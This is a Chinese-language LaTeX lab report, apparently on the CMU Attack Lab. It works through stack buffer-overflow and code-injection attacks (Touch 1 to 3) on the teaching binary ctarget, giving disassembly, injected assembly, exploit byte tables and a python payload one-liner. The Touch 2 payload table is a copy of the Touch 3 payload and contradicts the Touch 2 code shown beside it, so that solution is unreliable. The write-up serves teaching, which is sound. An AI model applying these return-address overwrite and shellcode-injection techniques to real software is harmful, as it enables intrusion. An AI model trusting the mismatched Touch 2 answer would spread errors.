\subsection{$Touch 1$}

\subsubsection{getbuf 汇编代码分析}
\begin{lstlisting}[language = C , title = { getbuf.c} ]
    00000000004017a8 <getbuf>:
    4017a8:	48 83 ec 28          	sub    $0x28,%rsp # 栈指针减小 40
    4017ac:	48 89 e7             	mov    %rsp,%rdi
    4017af:	e8 8c 02 00 00       	call   401a40 <Gets> # 调用Gets()函数
    4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
    4017b9:	48 83 c4 28          	add    $0x28,%rsp
    4017bd:	c3                   	ret    
    4017be:	90                   	nop
    4017bf:	90                   	nop
\end{lstlisting}
\subsubsection{$Touch 1$ 汇编代码分析}

获取汇编代码后,使用$ Ctrl+F $ 搜索找到$ Touch\  1 $函数的代码,如下所示:
\begin{lstlisting}[language = C , title = { Touch 1.c } ]
    void touch1()
    {
        vlevel = 1; /* Part of validation protocol */
        printf("Touch1!: You called touch1()\n");
        validate(1);
        exit(0);
    }
    
    00000000004017c0 <touch1>:
    4017c0:	48 83 ec 08          	sub    $0x8,%rsp
    4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
    4017cb:	00 00 00 
    4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
    4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
    4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
    4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
    4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
    4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
\end{lstlisting}

\subsubsection{$ Touch 1$ 汇编代码解释}
漏洞造成:$gets()$读取函数对字符串没有长度限制,当$callq$时,返回地址在读取信息位置的高字节处,
如果读取字符串过长,就会覆盖返回地址,使其无法返回$getbuf$。

根据$.S$文件可知,$Touch 1$的地址是$ 0x4017c0 $,
所以我们只需要随意输入$40$个字符,然后再输入$ Touch1 $ 的地址来覆盖 $ getbuf $的返回地址即可

注意机器采用$ Little Endian $(小端法) ,地址在栈中的排列顺序——高位在高地址,低位在低地址,
写栈帧从低地址向高地址。

\subsubsection{$Touch 1$ 漏洞注入}
根据上述分析,我们可以构造一个输入字符串,使得$ getbuf $函数返回$ Touch 1 $函数,即可完成$ Touch 1 $的攻击。

一种可行的答案为:
\begin{table}[h!]
    \centering
    \begin{tabular}{cccccccc}
        \hline
        01 02 03 04 05 06 07 08 \\
        31 41 59 26 53 58 97 93 \\
        11 45 14 19 19 18 00 00 \\
        66 66 66 66 23 33 33 33 \\
        27 18 28 18 28 45 90 45 \\
        c0 17 40 00 00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 1$ 漏洞注入方案 }
  \end{table}
\begin{lstlisting}[language = C , title = { 另一种$Python$注入方式 } ]
    python -c 'print "A"*40 + "\xc0\x17\x40\x00\x00\x00\x00\x00"' | ./hex2raw | ./rtarget -q
\end{lstlisting}

\subsubsection{代码运行过程}
在即将运行程序测试时,我使用到了以下命令:
\begin{itemize}
    \item touch touch1.txt 生成一个文件
    \item vim touch1.txt 编辑文件
    \item ./hex2raw < touch1.txt > text1.txt 将文件转化为可读取格式
    \item ./ctarget -q -i < text1.txt 运行文件
\end{itemize}

但在$VMWare 16$中,$Win11$的$Hyper-V$和虚拟机内是冲突的,出现了报错:
$ VMware Workstation $不可恢复错误:

$(vcpu-1) \ Exception \ 0xc0000005 \ (access violation) \ has \ occurred.$

于是我找遍方法,先使用$HypetV.cmd$文件将以下代码写入,然后运行,重启电脑。

\begin{lstlisting}[language = C , title = { $Hyper-V$.cmd } ]
    pushd "%~dp0"
    dir /b %SystemRoot%\servicing\Packages\*Hyper-V*.mum >hyper-v.txt
    for /f %%i in ('findstr /i . hyper-v.txt 2^>nul') do dism /online /norestart /add-package:"%SystemRoot%\servicing\Packages\%%i"
    del hyper-v.txt
    Dism /online /enable-feature /featurename:Microsoft-Hyper-V-All /LimitAccess /ALL
\end{lstlisting}

但最后仍然出现了运行失败的结果,于是卸载了$ WMWare 16 $,安装了$ WMWare 17$,
问题竟然得到了解决。并未使用$WSL2$等其他方法。

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Touch1.png}
    \caption{$Touch\ 1$实验结果}
\end{figure}

\subsection{$Touch 2$}
首先,要明确我们的任务是跳转执行touch2函数,并欺骗该函数假装传入了正确的cookie。

获取汇编代码后,使用$ Ctrl+F $ 搜索找到$ Touch \ 2 $函数的代码,如下所示:
\begin{lstlisting}[language = C , title = { $Touch \ 2$.c } ]
    00000000004017ec <touch2>:
    4017ec:	48 83 ec 08          	sub    $0x8,%rsp                 # 栈指针减小 8
    4017f0:	89 fa                	mov    %edi,%edx                 #  edx = edi
    4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)       # 6044dc <vlevel>
    4017f9:	00 00 00 
    4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi       # 6044e4 <cookie>
    401802:	75 20                	jne    401824 <touch2+0x38>
    401804:	be e8 30 40 00       	mov    $0x4030e8,%esi            # esi = 0x4030e8
    401809:	bf 01 00 00 00       	mov    $0x1,%edi                 # edi = 1
    40180e:	b8 00 00 00 00       	mov    $0x0,%eax                 # eax = 0
    401813:	e8 d8 f5 ff ff       	call   400df0 <__printf_chk@plt>
    401818:	bf 02 00 00 00       	mov    $0x2,%edi                 # edi = 2
    40181d:	e8 6b 04 00 00       	call   401c8d <validate>         # 调用validate函数
    401822:	eb 1e                	jmp    401842 <touch2+0x56>      # 跳转到401842
    401824:	be 10 31 40 00       	mov    $0x403110,%esi            # esi = 0x403110
    401829:	bf 01 00 00 00       	mov    $0x1,%edi                 # edi = 1
    40182e:	b8 00 00 00 00       	mov    $0x0,%eax                 # eax = 0
    401833:	e8 b8 f5 ff ff       	call   400df0 <__printf_chk@plt> # 调用printf函数
    401838:	bf 02 00 00 00       	mov    $0x2,%edi                 # edi = 2
    40183d:	e8 0d 05 00 00       	call   401d4f <fail>             # 调用fail函数
    401842:	bf 00 00 00 00       	mov    $0x0,%edi                 # edi = 0
    401847:	e8 f4 f5 ff ff       	call   400e40 <exit@plt>
\end{lstlisting}

显然,我们只需要跳转到$ 0x401804 $的位置,即可成功调用$ touch2 $函数。
注意到汇编代码中有这样的一行:

$$ 0x00000000004017fc <+16>:\ \ \    cmp   \ \ \  0x202ce2(\%rip),\ \%edi\  \  \#\  0x6044e4 <cookie> $$

显然这是需要被比较的值$cookie$的位置,在cookie.txt中可以看到,cookie的值为$0x59b997fa$。

touch2中,只有当edi与cookie值相等时,才可以成功攻击。
因此需要利用缓冲区溢出修改寄存器的值,并写入攻击代码改变rdi/edi的值,

\subsubsection{$Touch 2$ 漏洞注入}
\begin{lstlisting}[language = C , title = { $Touch \ 2$.c } ]
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }     else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
    }
    exit(0);
}
\end{lstlisting}

通过touch2的C代码,我们发现这次我们不仅需要攻击调用touch2,还要传入一个正确的参数,
通过汇编找到该参数,我们可以得到cookie的值为0x59b997fa。
只有传入的参数等于cookie时,我们才能成功,否则会misfire
因此这次我们需要在栈帧中写入一些代码,以此让存放第一个参数的寄存器$\%rdi$的值为$0x59b997fa$

因为ctarget没有栈保护机制,因此栈顶的位置固定,所以我们直接在栈顶写入我们想要的代码即可
现在.s文件中写下以下汇编代码:

使用以下命令:
\begin{itemize}
    \item touch inject.S 生成一个文件
    \item vim inject.S 编辑文件
    \item gcc -c inject.S 生成.o文件
    \item objdump -d inject.o > inject.txt 反汇编输出含机器码的语句
    \item ./hex2raw < inject.txt > inject.txt 将文件转化为可读取格式
    \item ./ctarget -q -i inject.txt 运行文件
\end{itemize}

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec          
    ret                         
\end{lstlisting}

转化完成后,如下代码所示:
\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    touch2.o:     文件格式 elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
       7:	68 ec 17 40 00       	push   $0x4017ec
       c:	c3                   	ret     
\end{lstlisting}

\begin{table}[h!]
    \centering
    \begin{tabular}{llllllll}
        \hline
        48 c7 c7 a8 dc 61 55 68 \\
        fa 18 40 00 c3 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        78 dc 61 55 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 2$ 漏洞注入方案 }
  \end{table}

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Touch2.png}
    \caption{$Touch\ 2$实验结果}
\end{figure}

\subsection{Touch3}

\subsubsection{实验要求与思路}
执行完$getbuf$后执行$touch3$,而$touch3$的参数是一个地址,地址的内容是$cookie$。

思路:首先先将之前获取的$cookie$转化为$16$进制字符。
$0x59b997fa$转化为$35\ 39\ 62\ 39\ 39\ 37\ 66\ 61$.

接着要找到一个地方存放字符串$cookie$,是否能将其直接放在栈的内部呢?查看$touch3$内容:

\subsubsection{汇编代码分析}
首先与之前同理,先获取Touch3的汇编代码,注意一些特别的关键点,不贴全部的内容了,占用空间,如下所示:
\begin{lstlisting}[language = C , title = {Touch3.s} ]
000000000040184c <hexmatch>:
    40184c:  41 54          push  %r12
    40184e:  55             push  %rbp
    40184f:  53             push  %rbx
    401850:  48 83 c4 80    add  $0xffffffffffffff80,%rsp

00000000004018fa <touch3>:
    4018fa:  53                    push  %rbx
    4018fb:  48 89 fb              mov  %rdi,%rbx
    4018fe:  c7 05 d4 2b 20 00 03  movl  $0x3,0x202bd4(%rip)   # 6044dc <vlevel>
    401905:  00 00 00 
    401908:  48 89 fe              mov  %rdi,%rsi
    40190b:  8b 3d d3 2b 20 00     mov  0x202bd3(%rip),%edi    # 6044e4 <cookie>
    401911:  e8 36 ff ff ff        callq 40184c <hexmatch>      
\end{lstlisting}

由上面这部分指令可知,在调用$touch3$时,栈会继续向下增长从而覆盖$touch3$地址以下的内容,
所以要将目标字符串放在$touch3$的高字节部分。

于是考虑将字符串放在返回地址(栈外)的高字节位置。经过计算得到地址为$0x5561dca8$

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x5561dca8,%rdi    #将cookie的地址放入rdi
    pushq   $0x4018fa           #push touch3 address
    ret                         #return to touch3            
\end{lstlisting}

转化完成后,如下代码所示:
\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    in3.o:     文件格式 elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
       7:	68 fa 18 40 00       	push   $0x4018fa
       c:	c3                   	ret    
\end{lstlisting}

\begin{table}[h!]
    \centering
    \begin{tabular}{llllllll}
        \hline
        48 c7 c7 a8 dc 61 55 68 \\
        fa 18 40 00 c3 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        78 dc 61 55 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 3$ 漏洞注入方案 }
  \end{table}

\subsubsection{实验结果}
\begin{figure} [H]
    \centering
    
\includegraphics[width=0.48\textwidth]{Touch3.png}
    \caption{$Touch\ 3$实验结果}
\end{figure}

